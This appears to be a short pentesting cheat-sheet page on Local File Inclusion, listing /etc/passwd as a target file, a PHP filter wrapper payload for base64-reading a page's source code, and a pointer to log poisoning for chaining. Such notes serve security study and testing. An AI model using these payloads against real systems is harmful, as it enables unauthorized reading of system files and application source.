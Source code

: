 ```yaml
---
icon: file-import
description: Local File Inclusion
---
```


# LFI

{% hint style="info" %}
### <mark style="color:purple;">Important Files:</mark>

```
/etc/passwd
```

```
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`PHP`</mark>

* <mark style="color:purple;">Read page</mark> <mark style="color:orange;">**`source code`**</mark><mark style="color:purple;">:</mark>

```php
php://filter/convert.base64-encode/resource=dashboard
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Chaining</mark>

* <mark style="color:purple;">If it's possible to access logs try</mark> [<mark style="color:orange;">**`Log Poisoning`**</mark>](log-poisoning.md)&#x20;
{% endhint %}

